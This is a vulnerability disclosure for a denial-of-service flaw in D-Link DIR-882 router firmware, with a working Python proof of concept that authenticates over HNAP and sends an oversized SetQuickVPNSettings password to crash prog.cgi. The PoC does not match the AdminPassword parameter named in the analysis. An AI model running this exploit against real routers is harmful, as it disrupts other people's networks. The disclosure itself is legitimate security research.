 # Dlink DIR-882 DOS vulnerability
## Overview
- Manufacturer's website information：https://support.dlink.com/index.aspx 
- Firmware download address ：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
There is an DOS vulnerability in Dlink DIR-882_A1_FW1.30B06fix03, which can cause prog.cgi to crash.

## Affected version
![](pic/version.png "")
Figure shows the latest firmware ：A1_FW1.30B06fix03 of the router
## Vulnerability details
The firmware version can be found is 1.30 on the web.

![](pic/web.png "")

In prog.cgi, we can find the code details in sub_435220,the program passes the contents obtained by the SetDeviceSettings/AdminPassword parameter to V4.

![](pic/code1.png "")

The V4 parameter is called by the function decrypt_aes (). In the decrypt_aes () function, it is passed to the sub_427184 ().

![](pic/code2.png "")

In the function sub_427184 (), the length of the passed-in parameter is called as the number of cycles in two for loops.

![](pic/code3.png "")

Therefore, the number of cycles is controllable, and if the number of cycles is long enough, it will lead to dos.
## Vulnerability exploitation condition
Need to get cookie after logging in to execute the attack.

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the following POC attacks

Poc is as follows
```python
import math
import re
import time
from hashlib import md5

import requests

IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())


def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b

def send_request():
    pass

for i in range(REPEAT_TIMES):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}', data=payload, headers=headers)

    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)

    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()
    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')

    data_password = 'A' * 230
    data_psk = 'ca2379c8d7f5e407f2d443b8d69fe4e8ef6f79c88309e4f9ebd471acd6f0dee8ef6f79c88309e4f9ebd471acd6f0dee8ef6f79c88309e4f9ebd471acd6f0dee8'
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetQuickVPNSettings xmlns="http://purenetworks.com/HNAP1/"><Enabled>true</Enabled><Username>vpn</Username><Password>{data_password}</Password><PSK>{data_psk}</PSK><AuthProtocol>MSCHAPv2</AuthProtocol><MPPE>None</MPPE></SetQuickVPNSettings></soap:Body></soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetQuickVPNSettings"'
    headers['HNAP_AUTH'] = hnap_auth("SetQuickVPNSettings", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
After running poc, the process number of prog.cgi has changed, indicating that prog.cgi has been restarted, and normal data packets will not cause the process change.
Before running:

![](pic/a1.png "")

After running:

![](pic/a2.png "")

## CVE-ID
unsigned

